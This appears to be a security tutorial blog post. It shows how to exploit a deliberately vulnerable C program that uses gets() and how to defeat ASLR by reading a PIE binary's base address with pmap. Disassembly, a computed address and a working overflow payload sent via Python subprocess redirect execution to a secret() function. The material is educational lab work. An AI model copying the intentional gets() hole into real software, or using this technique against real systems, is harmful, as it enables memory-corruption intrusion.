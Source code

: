 ```yaml
---
title: Shattering the stack (1)
published: true
---
```


### Table of contents

* toc placeholder
{:toc}

### Introduction

This is a follow-up to the [previous post](https://shadowshell.io/shattering-the-stack-0) where we began exploring the world of buffer overflows. Now, we will examine how to circumvent ASLR using [pmap](https://linux.die.net/man/1/pmap) (or any similar tool that can determine randomized addresses at runtime). The source code is available [here](https://github.com/gemesa/exploit-lab).

### vulnerable code

We are using the same C code to demonstrate a simple buffer overflow vulnerability (due to the use of the unsafe `gets()` function):

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// gets() was removed from the C11 standard
char* gets(char* str);

int authenticate(void)
{
    char buff[10];
    char cmd[10];
    int auth = 0;

    puts("enter the password:");
    gets(buff);
    
    if(strcmp(buff, "12345"))
    {
        puts("wrong password");
    }
    else
    {
        puts("correct password");
        auth = 1;

    }
    
    if(auth)
    {
        puts("authenticated");
        puts("your files:");
        strcpy(cmd, "ls");
        system(cmd);
    }

    return 0;
}

int main(void)
{
    authenticate();
    return 0;
}

void secret(void)
{
    puts("secret found!");
}
```

## exploit

Let’s compile and inspect the binary:

```
$ gcc lab/bof-server.c -g -o build/bof-server -fPIE -pie
...
$ objdump -f build/bof-server

build/bof-server:     file format elf64-x86-64
architecture: i386:x86-64, flags 0x00000150:
HAS_SYMS, DYNAMIC, D_PAGED
start address 0x0000000000001080
```

The [flags](https://sourceware.org/binutils/docs-2.23.1/bfd/BFD-front-end.html#BFD-front-end) include `DYNAMIC` which means the binary is meant to be used with dynamic linking. This flag is typically seen in shared libraries and PIE executables. We can also see a relatively low start address. For non-PIE executables the start address is usually a fixed higher address:

```
$ gcc lab/bof-server.c -g -o build/bof-server
...
$ objdump -f build/bof-server

build/bof-server:     file format elf64-x86-64
architecture: i386:x86-64, flags 0x00000112:
EXEC_P, HAS_SYMS, D_PAGED
start address 0x0000000000401070
```

Now we verified our binary is indeed a PIE executable meaning if ASLR is activated the addresses will be randomized when we run the executable:

```
$ ./build/bof-server
enter the password:

```
Open an other terminal:

```
$ ps a | grep bof-server                                                      
  45008 pts/0    S+     0:00 ./build/bof-server
...
$ pmap -x 45008
45008:   ./build/bof-server
Address           Kbytes     RSS   Dirty Mode  Mapping
0000561f40f3e000       4       4       0 r---- bof-server
0000561f40f3f000       4       4       0 r-x-- bof-server
0000561f40f40000       4       4       0 r---- bof-server
0000561f40f41000       4       4       4 r---- bof-server
0000561f40f42000       4       4       4 rw--- bof-server
0000561f42cf9000     132       4       4 rw---   [ anon ]
00007f20ed234000       8       4       4 rw---   [ anon ]
00007f20ed236000     152     148       0 r---- libc.so.6
00007f20ed25c000    1396     720       0 r-x-- libc.so.6
00007f20ed3b9000     308      64       0 r---- libc.so.6
00007f20ed406000      16      16      16 r---- libc.so.6
00007f20ed40a000       8       8       8 rw--- libc.so.6
00007f20ed40c000      40      28      28 rw---   [ anon ]
00007f20ed434000       4       4       0 r---- ld-linux-x86-64.so.2
00007f20ed435000     156     156       0 r-x-- ld-linux-x86-64.so.2
00007f20ed45c000      40      40       0 r---- ld-linux-x86-64.so.2
00007f20ed466000       8       8       8 r---- ld-linux-x86-64.so.2
00007f20ed468000       8       8       8 rw--- ld-linux-x86-64.so.2
00007ffcce354000     132      12      12 rw---   [ stack ]
00007ffcce37e000      16       0       0 r----   [ anon ]
00007ffcce382000       8       4       0 r-x--   [ anon ]
ffffffffff600000       4       0       0 --x--   [ anon ]
---------------- ------- ------- ------- 
total kB            2456    1244      96
```

Our goal is once again to jump to our `secret()` function:

```
$ objdump -d build/bof-server
...
0000000000001228 <secret>:
    1228:	55                   	push   %rbp
    1229:	48 89 e5             	mov    %rsp,%rbp
    122c:	48 8d 05 25 0e 00 00 	lea    0xe25(%rip),%rax        # 2058 <_IO_stdin_used+0x58>
    1233:	48 89 c7             	mov    %rax,%rdi
    1236:	e8 f5 fd ff ff       	call   1030 <puts@plt>
    123b:	90                   	nop
    123c:	5d                   	pop    %rbp
    123d:	c3                   	ret
...
```

The address `0x0000000000001228` is relative to the base address of our running process, so if it is `0x0000561f40f3e000` as we saw above then the address of `secret()` will be `0x0000561f40f3e000 + 0x0000000000001228`.

There are 2 problems:
- the base address will be only known after we run `bof-server`
- there is a high chance our address will contain non-printable characters like `\x10`, and passing these to a command-line executable can be tricky, especially if we are using a standard shell or command prompt, as these environments typically don't handle non-printable characters well in direct input

As a solution to these problems we will use the Python interpreter to run `bof-server` and pass our password (payload) to it:

```
$ python                
Python 3.11.6 (main, Oct  3 2023, 00:00:00) [GCC 13.2.1 20230728 (Red Hat 13.2.1-1)] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import subprocess
>>> cmd = ['stdbuf', '-o0', './build/bof-server']
>>> proc = subprocess.Popen(cmd, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
```

Note: `stdbuf -o0` sets the stdout stream buffering mode to unbuffered. This is necessary because without this some of the stdout was lost (stdout was almost empty after calling `proc.communicate()`).

Now our process is waiting for our password input so we can check the base address:

```
$ ps a | grep bof-server
  46104 pts/0    S+     0:00 ./build/bof-server
...
$ pmap -x 46104
46104:   ./build/bof-server
Address           Kbytes     RSS   Dirty Mode  Mapping
00005651e7c8a000       4       4       0 r---- bof-server
...
```

Then calculate the address of `secret()` and pass our payload:

```
>>> hex(0x00005651e7c8a000+0x1228)
'0x5651e7c8b228'
>>> password = b'aaaaaaaaaabbbbcccccccc\x28\xb2\xc8\xe7\x51\x56'
>>> proc.stdin.write(password)
28
>>> proc.communicate()
(b'enter the password:\nwrong password\nauthenticated\nyour files:\narsenal\nbuild\nCargo.lock\nCargo.toml\nlab\nLICENSE\nMakefile\nREADME.md\ntarget\nsecret found!\n', b'')
>>> exit()
```

`proc.communicate()` returns the stdout and stderr logs. As we can see `secret()` was called because we see `secret found!` in the output.

References:
- [https://reverseengineering.stackexchange.com/questions/19598/find-base-address-and-memory-size-of-program-debugged-in-gdb](https://reverseengineering.stackexchange.com/questions/19598/find-base-address-and-memory-size-of-program-debugged-in-gdb)
